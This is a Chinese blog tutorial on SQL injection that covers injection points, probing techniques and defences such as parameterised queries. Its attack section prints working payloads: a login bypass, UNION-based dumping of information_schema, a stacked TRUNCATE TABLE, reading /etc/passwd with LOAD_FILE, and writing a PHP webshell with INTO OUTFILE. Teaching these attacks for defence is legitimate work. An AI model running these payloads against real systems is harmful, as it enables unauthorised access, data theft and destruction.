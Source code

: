```yaml
---
title:     "了解SQL注入"  # 文章标题
subtitle:    "了解SQL注入"  # 文章标题
description: ""
date:         2018-05-06T10:41:29+08:00  # 自动添加日期信息
author:   "WangZiTao"
image:   ""
tags:        ["SQL注入"]
url:    "/2018-05-06-了解sql注入"
categories:  ["SQL"]
showtoc: true   # 是否显示目录
---
```

## 1.简介

SQL注入，就是通过把SQL命令插入到Web表单提交或输入域名或页面请求的查询字符串，最终达到欺骗服务器执行恶意的SQL命令。一般来说，它是利用现有应用程序，将（恶意的）SQL命令注入到后台数据库引擎执行的能力，它可以通过在Web表单中输入（恶意）SQL语句得到一个存在安全漏洞的网站上的数据库，而不是按照设计者意图去执行SQL语句。


## 2.SQL注入的位置

SQL注入只有在SQL语句中插入了用户输入的字符串并没有做好相应的处理时才会发生，用户输入的来源可以是URL参数，POST数据，外部用户输入信息等。程序员在编写代码时往往需要在SQL中填入用户输入的参数，譬如根据用户ID查询用户信息，查询链接类似于/get_user_info.php?uid=123，具体到SQL代码可能是下面这样：

  ```sql
  SELECT * FROM User WHERE uid = 123
  ```

或者是根据用户名来查找用户，链接类似于/search_user.php?name=Zhangsan，具体到SQL代码类似于下面：

  ```sql
  SELECT * FROM User WHERE name = 'Zhangsan'
  ```

上面例子中123和Zhangsan就是用户输入的参数，同时也是可能的注入点。常见的SQL注入位置有下面几种（当然程序员可以把用户参数写到任何地方，不仅仅是WHERE条件里，也可以是ORDER BY或GROUP BY子句，甚至是SQL语句本身）：

  ```sql
  SELECT * FROM table WHERE id = XXX
  SELECT * FROM table WHERE name = 'XXX'
  SELECT * FROM table WHERE name = 'XXX' AND pass = 'YYY'
  SELECT * FROM table WHERE name = "XXX"
  SELECT * FROM table WHERE id IN (XXX)
  SELECT * FROM table WHERE name like '%XXX%'
  ```
## 3.SQL注入方法
从上面列出的SQL语句可以看出，常见的查询参数有可能是数字类型，也可能是字符串类型。两种类型的参数有不同的注入检测方法，字符串类型的参数可以使用 ' '' " "" \ \\\ 进行试探，而数字类型时可以用AND 1、AND 0、AND true、AND false、1-false、1-true、2-1、1*100等方法进行试探。下面举例说明： 一般情况下，如果程序对用户输入的参数做了正确的处理，那么输入任何参数页面都不会报错。如下面两句SQL：

  ```sql
  SELECT * FROM User WHERE name = 'Zhangsan''
  SELECT * FROM User WHERE name = 'Zhangsan'''
  ```
这两个SQL第二个是合法的，只要引号成对出现都没问题。如果用户分别输入Zhangsan'和Zhangsan''页面都能正常返回，则表明不存在注入问题，如果第一个输入页面异常，而第二个输入正常则表明该参数很可能是一个可以利用的注入点。 数字类型的参数看下面这个例子，如果用户输入123 AND 1和123 AND 0页面返回正常，并且结果一样，则说明程序对参数作了处理，而如果输入123 AND 1返回正常，输入123 AND 0返回空页面，则说明存在注入的可能。

  ```sql
  SELECT * FROM User WHERE uid = 123 AND 1
  SELECT * FROM User WHERE uid = 123 AND 0
  ```
##　4.注入能做什么
如果SQL注入只是简单的让页面出错或者返回空页面的话，那么SQL注入也就不会这么吸引人了。SQL注入的强大之处在于可以在服务器上做几乎任何事，听起来似乎是危言耸听，但事实确实如此，要不然SQL注入怎么会和DOS攻击一起成为最流行的网络攻击方法呢。下面我们就来看下通过一个简单的URL参数，可以做多么不可思议的事。

### 4.1 绕开验证
在用户登陆时，往往要根据用户输入的用户名和密码到数据库中进行查询比较，如果用户名和密码匹配则认为登陆成功。相应的SQL语句如下：

  ```sql
  SELECT * FROM Customer WHERE name = 'XX' AND pass = 'YY'
  ```

如果没有对用户输入的参数进行检查，则当输入用户名为admin，密码为' OR '' = ' 时，执行下面的SQL语句：

  ```sql
  SELECT * FROM Customer WHERE name = 'admin' AND pass = '' OR '' = ''
  ```

这个SQL语句中的'' = ''将这个WHERE条件变成了恒等于TRUE，所以会返回所有记录。如果程序通过判断返回的记录数是否大于0来判断验证是否通过的话，这样我们就绕过了程序的验证。

### 4.2 暴库
根据上面的例子可以看到原本是想查询用户名为admin的用户记录，SQL注入后返回的却是数据库中的所有记录。通过这种方式连接其他的表，利用一点点的手段，就几乎可以获取所有数据库、所有表、所有字段的信息，并可以根据这些信息进一步查询数据库中的任意数据。这就是所谓的暴库。譬如还是上面的SQL例子，通过下面的SQL可以获取MySQL版本：

  ```sql
  SELECT * FROM User WHERE name = 'Zhangsan' AND MID(VERSION(),1,1) = '5'
  ```

通过下面的SQL可以爆出所有表：

  ```sql
  SELECT * FROM User WHERE name = 'Zhangsan' UNION SELECT TABLE_SCHEMA, TABLE_NAME FROM information_schema.TABLES WHERE TABLE_TYPE = 'BASE TABLE'-- -'

  ```

这种方法称为Union法。要让这个SQL能够正确执行，User表的字段必须和后面UNION SELECT的字段个数一致，如果字段个数不一致SQL执行会报错。所以要让这种方法生效首先得确定User表字段个数，一般通过ORDER BY试探法，如下所示，通过递增ORDER BY的数值直到页面出错来确定字段个数。

```sql
  SELECT * FROM User WHERE name = 'Zhangsan' ORDER BY 1 -- -'  -- 正常
  SELECT * FROM User WHERE name = 'Zhangsan' ORDER BY 2 -- -'  -- 正常
  SELECT * FROM User WHERE name = 'Zhangsan' ORDER BY 3 -- -'  -- 正常
  SELECT * FROM User WHERE name = 'Zhangsan' ORDER BY 4 -- -'  -- 正常
  SELECT * FROM User WHERE name = 'Zhangsan' ORDER BY 5 -- -'  -- 页面出错，可推测User表字段数为4
  ```
确定好User表的字段个数后，后面的UNION SELECT语句也需要做相应的调整，可以用数字1来填充，如下：

  ```sql
  SELECT * FROM User WHERE name = 'Zhangsan' UNION SELECT TABLE_SCHEMA, TABLE_NAME, 1, 1 FROM information_schema.TABLES WHERE TABLE_TYPE = 'BASE TABLE'-- -'
  ```
### 4.3 增删改查，任意数据库操作
一旦知道了所有的数据库信息，则可以修改注入语句任意操作数据库。如下的例子将Product表清空：

  ```sql
  SELECT * FROM User WHERE uid = 123; TRUNCATE TABLE Product
  ```

### 4.4 读写文件
MySQL提供了两个方法可以从本地读取和写入文件，如下：

  ```sql
  SELECT LOAD_FILE('/etc/passwd');
  SELECT '<? system($_GET[\'c\']); ?>' INTO OUTFILE '/var/www/shell.php';
  ```
上面两个例子展现了SQL注入的强大威力，如果MySQL用户拥有读写文件的权限，那么SQL注入将对站点带来巨大的威胁。第一个例子可以爆出linux服务器上的账号密码文件，第二个例子是向网站根目录写一个webshell，通过这个webshell用户就可以执行linux的系统命令了。譬如：http://www.example.com/shell.php?c=ls，通过webshell攻击者可以进一步做更多的事情了，最后直到控制整个服务器。

## 5.防范SQL注入

针对SQL注入的特点，总结以下几点基本的防范原则：

1. **永远不要相信用户输入，对用户输入进行校验**
2. **永远不要自己拼接SQL**
3. **永远不要用管理员权限的数据库连接**
4. **永远不要明文保存机密信息**
5. **尽量不要显示程序的异常信息，保存到表或日志文件中**
6. **使用WAF（绕过WAF又是另一个话题了）**

从编程的角度来看可以做如下的事情：

1. **用户输入验证：类型转换、正则表达式、特殊符号过滤（引号，分号，注释符号等）**
2. **使用参数化存储过程**
3. **使用参数化SQL语句**
4. **采用ORM框架**

其中将拼接的SQL语句改为使用参数化的SQL语句是最常用的防范方法，另外，参数化的SQL不仅比拼接的更安全，而且性能要更高。 SQL语句的执行过程分几个步骤：语法检查、分析、执行、返回结果。当一条SQL通过语法检查后，会在共享池里寻找是否有跟其相同的语句，如果有则用已有的执行计划执行语句，如果没有找到，则生成执行计划，然后才执行语句。 自己拼接的SQL语句会随着变量的不同而不同，如下面的两句SQL，执行每个SQL的时候都会生成一次执行计划，而这些执行计划其实都是一样的。

  ```sql  
  SELECT * FROM Customer WHERE uid = 1
  SELECT * FROM Customer WHERE uid = 2
  ```
当这种SQL语句被大量调用时，会导致共享池中的SQL语句增多，而重用性极低，导致共享池内命中率下降。维护共享池内部结构消耗了大量的CPU和内存资源，而并没有充分利用执行计划的缓存优势，这样会带来性能问题。采用参数绑定的方式，可以解决这个问题：

  ```
  $uid = 1;
  $pdo = new PDO(...);
  $sql = "SELECT * FROM Customer WHERE uid = :ID";
  $stmt = $pdo->prepare($sql);
  $stmt->bindValue(":ID", $uid, PDO::PARAM_INT);
  $result = $stmt->execute();
  ```
## 6.参考
[sql_injection](https://websec.ca/kb/sql_injection)
